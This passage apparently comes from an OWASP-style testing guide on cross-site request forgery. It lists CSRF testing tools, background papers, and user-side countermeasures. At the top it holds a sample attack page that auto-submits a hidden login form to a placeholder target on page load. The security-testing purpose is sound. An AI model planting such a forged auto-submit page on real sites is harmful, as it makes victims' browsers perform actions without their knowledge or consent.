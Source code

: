 

```

<html>
<body onload='document.CSRF.submit()'>

<form action='http://tagetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

## Tools

  - WebScarab Spider
    <http://www.owasp.org/index.php/Category:OWASP_WebScarab_Project>
  - CSRF Tester
    <http://www.owasp.org/index.php/Category:OWASP_CSRFTester_Project>
  - Cross Site Requester
    <https://1337.yehg.net/cross_site_request_forgery.php> (via img)
  - Cross Frame Loader <https://1337.yehg.net/cross_site_framing.php>
    (via iframe)
  - Pinata-csrf-tool <http://code.google.com/p/pinata-csrf-tool/>

## References

**Whitepapers**
\* Peter W: "Cross-Site Request Forgeries" -
<http://www.tux.org/~peterw/csrf.txt>

  - Thomas Schreiber: "Session Riding" -
    <http://www.securenet.de/papers/Session_Riding.pdf>
  - Oldest known post -
    <http://www.zope.org/Members/jim/ZopeSecurity/ClientSideTrojan>
  - Cross-site Request Forgery FAQ -
    <http://www.cgisecurity.com/articles/csrf-faq.shtml>
  - A Most-Neglected Fact About Cross Site Request Forgery (CSRF) -
    <http://yehg.net/lab/pr0js/view.php/A_Most-Neglected_Fact_About_CSRF.pdf>

## Remediation

The following countermeasures are divided among recommendations to users
and to developers.

<u>Users</u>

Since CSRF vulnerabilities are reportedly widespread, it is recommended
to follow best practices to mitigate risk. Some mitigating actions are:

  - Logoff immediately after using a web application
  - Do not allow the browser to save username/passwords, and do not
    allow sites to “remember” the log in details.
  - Do not use the same browser to access sensitive applications and to
    surf freely the Internet; if it is necessary to do both things at
    the same machine, do them with separate browsers.
